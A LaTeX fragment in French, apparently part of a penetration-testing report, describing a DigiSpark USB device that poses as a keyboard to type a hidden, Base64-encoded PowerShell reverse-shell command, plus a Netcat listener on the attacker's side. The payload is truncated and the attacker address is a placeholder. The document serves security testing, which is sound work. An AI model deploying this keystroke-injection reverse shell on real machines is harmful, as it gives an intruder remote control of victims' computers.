 \documentclass[12pt,a4paper]{report}
\begin{document}
\subsection{Payload DigiSpark (Arduino)}

\begin{lstlisting}[language=C++, caption={Payload DigiSpark -- reverse shell PowerShell}, label=lst:revshell]
#include "DigiKeyboard.h"

void setup() {
  // Attendre l'initialisation du peripherique HID
  DigiKeyboard.delay(2000);
}

void loop() {
  // Ouvrir la boite Executer (Win + R)
  DigiKeyboard.sendKeyStroke(0, MOD_GUI_LEFT);
  DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);
  DigiKeyboard.delay(500);

  // Taper la commande PowerShell
  // ATTENTION : remplacer ATTACKER_IP et PORT par les valeurs de test
  DigiKeyboard.println(
    "powershell -nop -w hidden -e "
    "JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0"
    // [Base64 tronque pour la presentation -- voir annexe A]
  );
  DigiKeyboard.delay(300);
  DigiKeyboard.sendKeyStroke(KEY_ENTER);

  // Ne s'executer qu'une seule fois
  while (true) {
    DigiKeyboard.delay(60000);
  }
}
\end{lstlisting}

\begin{infobox}
L'encodage Base64 de la commande PowerShell est une technique standard utilisée par les \textit{pentesters} pour contourner les filtres de chaînes de caractères dans les journaux. Le décodage de la commande complète est présenté en Annexe~A.
\end{infobox}

\subsection{Infrastructure côté attaquant}

\begin{lstlisting}[language=bash, caption={Mise en écoute côté attaquant avec Netcat}, label=lst:netcat]
# Sur la machine attaquante (Kali Linux)
# Demarrer un listener sur le port 4444
nc -lvnp 4444

# Verification de la connexion entrante
# [LISTENING] 0.0.0.0:4444

# Une fois la connexion etablie, le shell cible est disponible :
# PS C:\Users\victime> whoami
# desktop-abc123\victime
\end{lstlisting}
\end{document}
